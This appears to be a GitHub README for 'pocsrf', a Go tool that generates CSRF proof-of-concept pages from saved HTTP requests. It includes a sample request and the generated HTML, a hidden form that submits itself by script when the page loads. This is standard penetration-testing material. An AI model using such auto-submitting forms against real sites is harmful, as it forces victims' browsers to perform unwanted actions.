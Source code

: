 # pocsrf
Yet another csrf generator.

# Installation
```bash
$ git clone https://github.com/lateralusd/pocsrf.git && cd ./pocsrf
$ go install ./...
$ ~/go/bin/pocsrf -help
Usage of pocsrf:
  -i string
    	input filename (default "req")
  -o string
    	output filename (default "out_csrf.html")
  -s	use http or https (default http)
```

# Usage
You can use it as a standalone binary, or as a library.

## Standalone binary
First you need to have request saved in a file, like the one below.

```http
$ cat req
POST /createUser HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://example.com
Connection: close

create=user&username=testUsername
```

If you are working with https, you need to pass `-s` flag.

```bash
$ pocsrf -i req -o output_csrf.html -s
$ cat output_csrf.html
<html>
        <body>
                <form action="https://example.com/createUser" method="POST">

                <input type="hidden" name="create" value="user"/> 
                <input type="hidden" name="username" value="testUsername"/> 

                </form>
                <script>
                        document.forms[0].submit();
                </script>
        </body>
</html>
```

# Note
The way the data is extracted now from the file is a bad way and will probably need to update it.
